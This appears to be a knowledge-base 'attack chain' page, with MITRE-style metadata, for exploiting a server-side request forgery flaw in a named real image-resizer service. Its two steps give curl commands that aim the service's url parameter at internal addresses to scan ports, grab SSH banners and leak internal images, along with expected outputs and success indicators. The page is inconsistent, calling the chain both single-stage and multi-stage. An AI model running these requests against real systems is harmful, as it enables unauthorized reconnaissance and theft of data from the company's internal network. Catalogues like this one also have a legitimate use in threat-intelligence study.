

---
tags:
  - ssrf
  - web
  - internal-network
  - port-scanning
  - data-leak
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-SSRF-in-Resizer-Service]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:46:09.227Z'
description: >-
  A single-stage attack leveraging Server-Side Request Forgery (SSRF) in the
  resizer service to perform internal port scanning, retrieve service banners,
  and leak sensitive internal images.
skill_level: intermediate
impact_level: high
id: 15b77068-ee82-4b5e-ba99-176d5a800b92
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# SSRF Exploitation in Line Resizer Service to Access Internal Network Resources

Multi-stage attack chain demonstrating a complete attack workflow exploiting SSRF in the Line resizer service to gain unauthorized access to internal network resources.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-ssrf-request]]

### Target Environment

- Web platform with access to https://resizer.line-apps.com
- HTTP protocol only (no HTTPS or other protocols)
- Knowledge of internal IP ranges or ports to target

### Initial Access Requirements

- Public internet access to the resizer service
- No authentication required for the /form endpoint
- Basic understanding of HTTP requests

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint

procedure: [[procedures/Identify-Resizer-SSRF-Endpoint]]

**Objective**: Locate and verify the SSRF-vulnerable endpoint in the resizer service.

**Instructions**: Use standard web reconnaissance to identify the /form endpoint at https://resizer.line-apps.com. Test basic functionality by sending a legitimate image resize request to confirm the service responds without errors.

Execute a simple test request using [[commands/curl-basic-test]]:

```bash
curl "https://resizer.line-apps.com/form?url=https://example.com/image.jpg"
```

**Expected Output**: The service processes the external URL and returns a resized image or success response.

**Success Indicators**:
- Endpoint responds to external HTTP URLs
- No immediate blocks or errors on basic requests

### Step 2: Exploit SSRF for Internal Access

procedure: [[procedures/Exploit-SSRF-in-Resizer-Service]]

**Objective**: Craft SSRF payloads to force the server to make requests to internal network resources, enabling port scanning, banner grabbing, and data exfiltration.

**Instructions**: Target internal IPs (e.g., 127.0.0.1, 10.0.0.0/8) and common ports (e.g., 22 for SSH, 80 for HTTP). Use the /form endpoint to inject internal URLs via the 'url' parameter.

Start with port scanning by requesting internal ports:

```bash
curl "https://resizer.line-apps.com/form?url=http://127.0.0.1:22"
```

Then retrieve service banners, such as SSH version:

```bash
curl "https://resizer.line-apps.com/form?url=http://internal-ip:22"
```

For data leakage, target internal image storage endpoints:

```bash
curl "https://resizer.line-apps.com/form?url=http://internal-server/images/sensitive.jpg"
```

**Expected Output**: Responses containing internal service banners (e.g., "SSH-2.0-OpenSSH_7.4"), port connection status, or leaked image data.

**Success Indicators**:
- Internal port responses or timeouts indicating open ports
- Retrieval of banners or internal files
- Evidence of sensitive data exposure

## Attack Chain Summary

### Key Achievements

1. Unauthorized access to internal network via SSRF
2. Port scanning and service enumeration
3. Leakage of internal images and potential sensitive data

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Reconnaissance]]

---
*Last updated: 2023-10-01T00:00:00Z*
